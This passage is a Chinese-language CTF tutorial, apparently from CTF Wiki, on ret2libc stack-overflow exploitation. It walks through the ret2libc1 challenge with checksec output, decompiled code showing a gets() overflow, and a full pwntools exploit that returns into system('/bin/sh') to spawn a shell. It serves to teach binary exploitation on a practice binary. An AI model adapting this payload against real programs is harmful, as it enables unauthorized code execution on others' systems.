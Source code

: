 ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置(即函数对应的 got表项的内容)。一般情况下，我们会选择执行 system("/bin/sh")，故而此时我们需要知道 system 函数的地址。

### 例子

我们由简单到难分别给出三个例子。

#### 例1

这里我们以 bamboofox 中 ret2libc1 为例。 

> 点击下载: [ret2libc1](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc1/ret2libc1)

首先，我们检查一下程序的安全保护：

```shell
➜  ret2libc1 checksec ret2libc1    
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

源程序为 32 位，开启了 NX 保护。下面对程序进行反编译以确定漏洞位置：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```

可以看到在执行 gets 函数的时候出现了栈溢出。此外，利用 ropgadget，我们可以查看是否有 /bin/sh 存在：

```shell
➜  ret2libc1 ROPgadget --binary ret2libc1 --string '/bin/sh'          
Strings information
============================================================
0x08048720 : /bin/sh
```

确实存在，再次查找一下是否有 system 函数存在。经在 ida 中查找，确实也存在。

```asm
.plt:08048460 ; [00000006 BYTES: COLLAPSED FUNCTION _system. PRESS CTRL-NUMPAD+ TO EXPAND]
```

那么，我们直接返回该处，即执行 system 函数。相应的 payload 如下：

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat([b'a' * 112, system_plt, b'b' * 4, binsh_addr])
sh.sendline(payload)

sh.interactive()
```
